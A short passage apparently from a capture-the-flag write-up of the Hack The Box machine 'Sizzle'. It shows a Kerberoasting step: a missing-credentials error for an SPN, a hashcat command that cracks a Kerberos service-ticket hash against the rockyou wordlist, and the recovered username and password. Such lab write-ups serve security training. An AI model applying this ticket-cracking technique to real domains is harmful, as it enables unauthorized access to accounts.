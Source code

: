 

error info, add the cred param.

` [X] Error during request for SPN http/sizzle@HTB.LOCAL : No credentials are available in the security package`



![image-20221217204941487](./images/image-20221217204941487.png)



```bash
hashcat -m 13100 -a 0 mrlky.hash /usr/share/wordlists/rockyou.txt

mrlky:Football#7
```
